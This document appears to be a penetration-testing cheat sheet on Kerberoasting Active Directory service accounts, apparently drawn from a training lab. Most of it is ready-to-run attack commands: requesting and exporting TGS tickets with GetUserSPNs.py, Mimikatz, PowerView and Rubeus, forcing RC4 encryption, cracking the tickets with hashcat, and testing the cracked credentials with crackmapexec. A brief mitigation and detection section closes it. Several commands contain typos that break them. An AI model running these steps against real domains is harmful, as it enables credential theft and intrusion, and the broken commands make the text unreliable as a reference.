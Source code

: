 - SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running.

-----
# Steps
-----
- First we need to find  SPN Accounts
- Request a TGS ticket and save it if a file
- Crack ticket offline with hashcat 13100
- Test connection using crackmapexe

-----
# FROM LINUX
-----
### GetUserSPNs.py
- List SPN Accounts
```bash
GetUserSPNs.py -dc-ip $IP INLANEFREIGHT.LOCAL/$USER
```
- Pull all TGS tickets for offline processing
```bash
GetUserSPNs.py -dc-ip $IP INLANEFREIGHT.LOCAL/forend -request
```
- Request a single TGS ticket
```bash
GetUserSPNs.py -dc-ip $IPP INLANEFREIGHT.LOCAL/forend -request-user sqldev 
```
- Saving TGS Ticket to a file
```bash
GetUserSPNs.pyu -dc-ip $IP INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputifle sqldev_tgs
```
- Cracking Ticket Offline with Hashcat
```bash
hashcat -m 13100 sqldev_tgs rockyou.txt
```
- Test Authentication against a Domain Controller
```bash
sudo crackmapexec smb $IP -u sqldev -p database!
```


-----
# FROM WINDOWS
-----
- Enumerate SPNs with setspn.exe
```cmd
setspn.exe -Q */*
```

- Target a Single User
```PowerShell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $USER #"MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"

# Options
Add-Type: used to add a .NET framework class to PowerShell session.
-AssemblyName: parameter allows us to specify an assembly that contains types taht we are interested in using
System.Identity Model: namespace that contains different classes for building security token services
New-Object: create an instance of a .NET Framework object
System.IdentityModel.Tokens: namespace with the KerberosRequestorSecurityTOken class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session.
```

- Retrieve All tickets using setspn.exe
```powershell
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

- Extract Tickets from memory with Mimikatz
```cmd
base64 /out:true # If this is not set, Mimikatz will extract the tickets and writethem to `.kirbi` files
kerberos::list /export
```

- Prepare the Base64 Blob for cracking
```bash
echo $BASE64 | tr -d \\n
```

- Place the Output into a file as .kirbi
```bash
cat encoded_file | base64 -d > $file
```

- Extract the Kerberos ticket using kirbi2john.py
```bash
# This will create a file called "cracked_file"
python kirbi2john.py sqldev.kirbi
```

- Modify `crack_file` for Hashcat
```bash
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

- Crack the Hash using hashcat
```bash
hashcat -m 13100 sqldev_tgs_hashcat rockyou.txt
```

==========================================
| AUTOMATED / TOOLBASED ROUTE |
==========================================

### PowerView
```PowerShell
Import-Module ./PowerView.ps1
Get-DomainUser * -spn | select samaccountname

# Target a specific user
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat

# Export all tickets to a CSV file
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation

# View the content of the CSV file
cat ./ilfreight_tgs.csv
```

### Rubeus
- Use Rubeus with /stats
```bash
Rubeus.exe kerberoast /stats
# This will give overall information of all users
```

- Use Rubeus with /nowrap flag
```PowerShell
Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
/nowrap: make it easier to copy the hash for offline cracking.
```

- Use Kerberoasting for a specific user
```PowerShell
Rubeus.exe Kerberoast /user:$USER /nowrap
```

- Kerberoasting tools typically request RC4 encryption when performing the attack => easier to crack than AES-128 & AES-256.

- RC4 hashes start with `$krb5tgs$23$*` while AES-256 ones start with `$krb5tgs$18$*`

- Crack ticket with Hashcat
```bash
hashcat -m 13100 rc4_to_crack rockyou.txt
```

- To check what type of encryption is used for a user
```PowerShell
Get-DomainUser $USER -Properties samaccountname, serviceprincipalname, msds-supportedencryptiontypes
```

- Refer to this [sheet](https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/decrypting-the-selection-of-supported-kerberos-encryption-types/ba-p/1628797) for encryption types.
	- `msDS-SupportedEncryptionTypes=0`: use default encryption type (RC4)
	- `msDS-SupportedEncryptionTypes=24`: use AES 128/256

- Use Hashcat to crack hashes
```bash
hashcat -m 19700 aes_to_crack rockyou.txt
```

- To use only RC4 encryption, use Rubeus with `/tgtdeleg`
```PowerShell
Rubeus.exe kerberast /tgtdeleg /user:testspn /nowrap
```


-----
# MITIGATION & DETECTION
-----
- Set a long and complex password.
-  Use [Managed Service Accounts (MSA)](https://techcommunity.microsoft.com/t5/ask-the-directory-services-team/managed-service-accounts-understanding-implementing-best/ba-p/397009), and [Group Managed Service Accounts (gMSA)](https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview), which use very complex passwords, and automatically rotate on a set interval (like machine accounts) or accounts set up with LAPS.
- Kerberoasting requests Kerberos TGS tickets with RC4 encryption, which should not be the majority of Kerberos activity within a domain. When Kerberoasting is occurring in the environment, we will see an abnormal number of `TGS-REQ` and `TGS-REP` requests and responses, signaling the use of automated Kerberoasting tools. Domain controllers can be configured to log Kerberos TGS ticket requests by selecting [Audit Kerberos Service Ticket Operations](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/audit-kerberos-service-ticket-operations) within Group Policy.
- Two events IDs are generated: [4769](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4769): A Kerberos service ticket was requested and [4770](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4770): A Kerberos service ticket was renewed.
